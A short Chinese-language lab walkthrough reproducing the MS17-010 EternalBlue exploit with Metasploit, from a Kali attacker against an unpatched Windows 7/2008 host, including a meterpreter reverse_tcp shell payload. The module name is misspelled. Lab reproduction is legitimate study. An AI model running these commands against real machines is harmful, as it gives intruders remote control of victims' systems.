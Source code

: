 # 漏洞利用复现

## No.1

### 实验环境

攻击机：kali（32位或64位均可）192.168.1.101

被攻击机：win7（未修补布丁）2008sp2 192.168.1.102

先说结论：进行攻击时，会导致被攻击机蓝屏（32位）原因不明（在攻击2008sp2时，也会造成被攻击机蓝屏

## 开搞

### No.1

获取攻击机IP：ifconfig

获取被攻击机：ipconfig

### No.2

开启被攻击机的网络共享功能

windows2008则开启网络发现功能

同时关闭机器上的防火墙

### No.3

开始攻击：

kali端切换到root模式下

msfconsole 开启神器

use exploit/windows/smb/ms17_010_eternablue 指定使用的漏洞

set payload windows/x64/meterpreter/reverse_tcp 设置tcp连接

set lhost 192.168.1.101 设置攻击机IP地址

set rhost 192.168.1.102 设置被攻击机IP地址

run  	最后一步：开启攻击

**** -------------------结束------------------****

